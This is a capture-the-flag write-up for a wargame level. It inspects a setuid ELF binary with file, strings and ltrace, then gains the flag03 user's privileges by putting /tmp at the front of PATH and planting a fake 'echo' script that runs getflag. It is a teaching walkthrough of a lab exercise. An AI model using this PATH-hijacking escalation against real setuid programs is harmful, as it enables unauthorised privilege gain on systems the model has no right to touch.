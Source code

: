 # level03

## level03 binary
Run the binary file "level03" and got taunted: "Exploit me".

## Reverse engineering
Try to know what's inside this "level03" file.  
Some tools:
- file  
A tool to get some basic information about a file.  
Run `file ./level03` and we will get:  
```
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
It shows that level03 file is an "ELF 32-bit LSB exaeutable", also "not stripped".

- strings  
print the strings of printable characters in files.  
We can found system() function been called.  

- ltrace  
A library call tracer.  
Run `ltrace -i ./level03` and we can found this program calling "system()" function to launch "echo" whit the PATH stored in the "env".  

## Almost the same as "Nebula Challenge" level01
Exploit the system() call with env injection.  
1. Check the owner of the level03 file  
Make sure this file has a "higher" privilege then the user "level03".  
`ls -la ./level03` shows the owner as "flag03" who can launch "getflag" and actually get the flag.  
2. Inject a new PATH into the env.  
`export PATH=/tmp:$PATH` this adds "/tmp" path in front of other path so the programe inside "/tmp" will be called before other path (if that program exist).  
3. Create a fake "echo" program
`echo "getflag" > /tmp/echo`
4. Make it executable
`chmod +x /tmp/echo`

Run ./level03 again and you've got flag

## Takeway
- Tools to read information inside a binary file.  
- Env injection  

